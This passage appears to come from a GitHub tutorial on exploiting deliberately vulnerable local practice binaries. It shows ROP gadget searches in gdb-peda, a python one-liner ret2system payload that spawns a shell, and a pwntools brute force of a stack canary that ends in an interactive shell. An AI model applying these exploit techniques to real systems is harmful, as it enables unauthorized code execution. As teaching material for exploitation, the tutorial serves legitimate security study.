 ```bash
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x0040124d : (b'5fc3')	pop rdi; ret
```
6. Search for "ret" gadger
```bash
gdb-peda$ ropsearch "ret"
Searching for ROP gadget: 'ret' in: binary ranges
0x0040101a : (b'c3')	ret
```
7. Search for "/bin/sh" string:
```bash
Searching for '/bin/sh' in: None ranges
Found 4 results, display max 4 items:
stack_overflow_bypass_aslr : 0x402004 --> 0x68732f6e69622f ('/bin/sh')
```
8. Assemble exploit (pop_rdi_ret + bin_sh + ret + system_plt):
```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A' * 88 + b'\x4d\x12\x40\x00\x00\x00\x00\x00' + b'\x04\x20\x40\x00\x00\x00\x00\x00' + b'\x1a\x10\x40\x00\x00\x00\x00\x00' + b'\xe0\x10\x40\x00\00\x00\x00\x00' + b'\n')"; cat) | ./stack_overflow_bypass_aslr
```

## Bypass Stack Canary
We'll be using brute force to reveal canary value byte by byte. This works only if the atacked applciation have forked child processes. Forked child processes have the same canary value and they could easily be resterated without restarting parent process. So we can select canary byte by byte using only 7 * 256 = 1792 tries. Use python + pwntools.
```bash
$ ./bypass_canary.py 
[+] Starting local process './build/stack_overflow_bypass_canary': pid 65259
[+] Found right byte 0x0
[+] Found right byte 0x18
[+] Found right byte 0x5e
[+] Found right byte 0x8c
[+] Found right byte 0xb
[+] Found right byte 0x16
[+] Found right byte 0x10
[+] Found right byte 0xe5
Found canary value: 00185e8c0b1610e5
[*] Switching to interactive mode
$ id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ ls
all.txt          peda-session-stack_overflow_bypass_canary.txt
build          README.md
bypass_canary.py  shellcode.c
bypass_pie.py      stack_overflow_bypass_aslr.cpp
CMakeLists.txt      stack_overflow_bypass_canary.cpp
dump          stack_overflow_bypass_nx.cpp
getenvvar.c      stack_overflow.cpp
mysh.c          test.py
payload
$  
```
